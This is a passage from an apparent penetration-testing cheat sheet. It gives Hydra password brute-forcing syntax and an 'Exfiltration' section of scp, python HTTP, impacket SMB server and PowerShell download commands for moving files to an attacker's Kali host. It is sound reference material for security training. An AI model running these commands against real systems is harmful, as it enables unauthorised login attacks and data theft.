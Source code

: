 ````
    etc.

````

### Hydra:
https://github.com/vanhauser-thc/thc-hydra
````
hydra -l <username> -P <wordlist.txt> <server> <service>

    Options:
        -l                  provide login name
        -P                  specify password list
        server service      set server address and service to attack
        -s <port_number>    use in case of non-default port number of service
        -V / -vV            show tried username&password combinations
        -d                  display debugging output
        -t <number>         specify number of parallel connections (e.g. -t 16)
````

## 8. Exfiltration:

### File Transfer:

SCP:
```
copy a file from local to remote server: scp <local_file_path> <username>@<ip>:<save_to_file_path>

copy file from remote server to local host: scp <ip>:<remote_file_path> <local_save_path>

copy directory: scp -r <directory> <username>@<ip>:<path_to_remote_directory>
```

python (Server):
```
Webserver: python -m http.server -p <port>

SMB-Server via impacket: 
        sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
        copy \\<IP>\kali\<file> <dest_path_on_windows>
```

powershell (Download):
```powershell
powershell -c "wget <url>" -outfile "<name>"

copy C:\<file_path> \\<IP\<kali_directory>\
```


## 9. Persistence:

### Windows:
